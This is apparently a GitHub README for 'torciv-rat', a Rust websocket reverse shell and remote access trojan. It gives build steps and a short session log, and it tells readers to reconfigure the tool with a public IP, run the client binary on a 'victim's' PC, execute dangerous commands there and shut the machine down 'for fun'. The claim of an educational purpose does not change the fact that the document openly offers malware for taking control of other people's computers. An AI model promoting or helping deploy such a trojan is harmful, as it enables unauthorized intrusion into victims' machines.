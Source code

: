 # TORCIV (RAT)

torciv-rat is a rust based websocket reverse shell and a remote access trojan

> This script was writting for an educational purpose for learning the rust langauge

### Uses

- this script can be used to launch an attack on your victims PC, you can run dangerous commands on your victim
- capable of shutting down your victims PC (for fun)...
- you're 100% in control of your victims PC once you get the `client` binary installed on his PC

### Compiling

This script listens on `127.0.0.1:8080` by default so you'll have to tweek it a bit if you want to connect to your victims PC from anywhere in the world!

Fist make sure you have rust installed, then update your public ip/domain, port, binary (/bin/bash, /bin/zsh etc) within the script

then Update cargo deps

```sh
$ cargo update
  Updating crates.io index
```

```sh
# Buildig for release
$ cargo build --release
   ...
   Compiling sha-1 v0.8.2
   Compiling rand v0.7.3
   Compiling idna v0.2.0
   Compiling mio-extras v2.0.6
   Compiling url v2.2.0
   Compiling ws v0.9.1
   Compiling torciv v0.1.0 (/home/navicstein/Rustcode/torciv)
    Finished release [optimized] target(s) in 17.24s

```

Build for target platform.

- https://doc.rust-lang.org/nightly/rustc/platform-support.html

### Usage

Socket Server

```
$ ./target/release/server
waiting for a victims reverse session..
Sending information about me.

$ id
uid=1000(navicstein) gid=1000(navicstein) groups=1000(navicstein),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(kvm),120(lpadmin),131(lxd),132(sambashare)

$ whoami
navicstein

```

Run the client on your victims machine

```
$ ./target/release/client
```

something missing? yes i know, contact me 👽
